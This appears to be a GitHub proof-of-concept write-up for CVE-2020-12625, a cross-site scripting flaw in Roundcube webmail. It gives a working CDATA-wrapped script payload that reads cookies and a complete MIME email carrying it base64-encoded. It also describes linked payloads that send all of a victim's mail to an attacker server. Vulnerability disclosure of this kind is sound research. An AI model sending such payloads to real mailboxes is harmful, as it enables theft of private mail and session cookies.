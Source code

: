 # CVE-2020-12625: Cross-Site Scripting (XSS) via Malicious HTML Attachment in Roundcube Webmail

A Cross-Site scripting (XSS) vulnerability exists in Roundcube versions before 1.4.4, 1.3.11 and 1.2.10.
<br/>
By leveraging the "\<![CDATA[...]]\>" XML element in a mail with a "text/html" attachment, an attacker can bypass the Roundcube script filter and execute arbitrary malicious JavaScript in the victim's browser when the malicious email is clicked.

### Vendor Disclosure:

The vendor's disclosure and patch of this vulnerability can be found [here](https://roundcube.net/news/2020/04/29/security-updates-1.4.4-1.3.11-and-1.2.10).

### Proof Of Concept:

By using "\<![CDATA[...]]\>", an attacker can use a "text/html" attachment that will result in an XSS when the victim opens the email.
<br/>
The XHTML content of a malicious file has the following form:
```
<label id="xss"><![CDATA[
<script type="text/javascript"> alert(document.location+"\n"+document.cookie); </script>
]]></label>
```

Now we are interested in creating a valid email with the above file. This can be achieved in multiple ways, but in this case, "[mpack](https://linux.die.net/man/1/mpack)" was used.
<br/>
<strong>Note:</strong> Because "mpack" does not support "text/html" formats, we use an "application/html" format which we later manually modify.
<br/>
The resulting email, containing the above XSS will have the following form:
```
Message-ID: <10597.1586954798@tester> Mime-Version: 1.0
Subject: XML HTML XSS
Content-Type: multipart/mixed; boundary="-"
 
This is a MIME encoded message. Decode it with "munpack"
or any other MIME reading software. Mpack/munpack is available via anonymous FTP in ftp.andrew.cmu.edu:pub/mpack/
--- 
Content-Type: text/html; name="xss.xml" Content-Transfer-Encoding: base64 Content-Disposition: inline; filename="xss.xml"
Content-MD5: u3TPnyqjJjkLsagJAZnTNg==

PGxhYmVsIGlkPSJ4c3MiPjwhW0NEQVRBWwo8c2NyaXB0IHR5cGU9InRleHQvamF2YXNjcmlw dCI+CmFsZXJ0KGRvY3VtZW50LmxvY2F0aW9uKyJcbiIrZG9jdW1lbnQuY29va2llKTsKPC9z
Y3JpcHQ+Cl1dPjwvbGFiZWw+Cg==

-----
```

We can then use "[sendmail](https://linux.die.net/man/8/sendmail.sendmail)" or other solutions to send the email to the victim. In this case the victim will be "guest@localhost".
<br/>
<br/>
If we view the attacker's terminal, the attack would look like this:
<img src="Attacker's%20Terminal.png"/>

And the XSS will trigger when the victim clicks on the malicious email:
<img src="Victim's%20Browser.png"/>
<img src="XSS.png"/>

#### Implementing an "Advanced" JavaScript Payload

Expanding on this concept an attacker may employ advanced JavaScript attacks in order to exfiltrate and/or delete all the victim's mails. The corresponding JavaScript/HTML can be found in [here](JavaScript%20Payloads/get_all_mail.html) (the GET version) or [here](JavaScript%20Payloads/get_all_mail_POST.html) (the POST version, a bit more complicated to set up but can exfiltrate large files that would be too big for a GET Parameter).
<br/>
We repeat the same steps as above to send the malicious XSS payload.
<br/>
This XSS reads and sends the victim's mails, via base64 encoded HTTP GET or POST parameters, to an attacker-controlled server (in this case "127.0.0.1:8000").
<br/>
We consider the "Super Secret" email a legitimate email containing sensitive information that the attacker is interested in obtaining:
<img src="Super%20Secret.png"/>

#### Result

When the victim clicks on the malicious mail ("Super XML HTML XSS"), all mails, including "Super Secret", will be sent to the attacker's server. By decoding the base64 message, the attacker can read the exfiltrated messages' content.
<img src="GET%20Mails.png"/>









